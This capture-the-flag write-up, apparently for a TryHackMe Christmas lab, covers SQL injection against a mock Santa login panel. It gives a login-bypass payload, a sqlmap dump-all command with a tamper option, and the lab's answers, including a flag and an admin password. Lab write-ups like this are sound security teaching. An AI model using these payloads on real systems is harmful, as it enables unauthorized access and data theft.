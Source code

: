 ```yaml
---
description: Web Exploitation ; sql injection ; sqli ; sqlmap
---
```


# Someone stole Santa's gift list!

## Video

{% embed url="https://www.youtube.com/watch?v=Kitx7cSNsuE" %}

## Resources

List of SQL Commands: [https://www.codecademy.com/articles/sql-commands](https://www.codecademy.com/articles/sql-commands)

Check out this cheat sheet: [swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection)

Payload list: [payloadbox/sql-injection-payload-list](https://github.com/payloadbox/sql-injection-payload-list)

In-depth SQL Injection tutorial: [SQLi Basics](https://tryhackme.com/room/sqlibasics)

[SQLMAP cheatsheet](https://www.security-sleuth.com/sleuth-blog/2017/1/3/sqlmap-cheat-sheet)

## Challenge

![](../.gitbook/assets/image%20%2869%29.png)

Without using directory brute forcing, what's Santa's secret login panel?

![](../.gitbook/assets/image%20%289%29.png)

{% hint style="success" %}
/santapanel
{% endhint %}

Visit Santa's secret login panel and bypass the login using SQLi

![](../.gitbook/assets/image%20%2840%29.png)

`Username` `'or true --`

`Password` `'--`

![](../.gitbook/assets/image%20%2863%29.png)

{% hint style="success" %}
No answer needed
{% endhint %}

How many entries are there in the gift database?

![](../.gitbook/assets/image%20%2819%29.png)

**`Save Item`**

`sqlmap -r santapanel.req --tamper=space2comment --dump-all -dbms sqlite`

![](../.gitbook/assets/image%20%2846%29.png)

![](../.gitbook/assets/image%20%2813%29.png)

{% hint style="success" %}
22
{% endhint %}

What did Paul ask for?

![](../.gitbook/assets/image%20%2824%29.png)

{% hint style="success" %}
Github Ownership
{% endhint %}

What is the flag?

![](../.gitbook/assets/image%20%2864%29.png)

{% hint style="success" %}
thmfox{All\_I\_Want\_for\_Christmas\_Is\_You}
{% endhint %}

What is admin's password?

![](../.gitbook/assets/image%20%282%29.png)

{% hint style="success" %}
EhCNSWzzFP6sc7gB
{% endhint %}

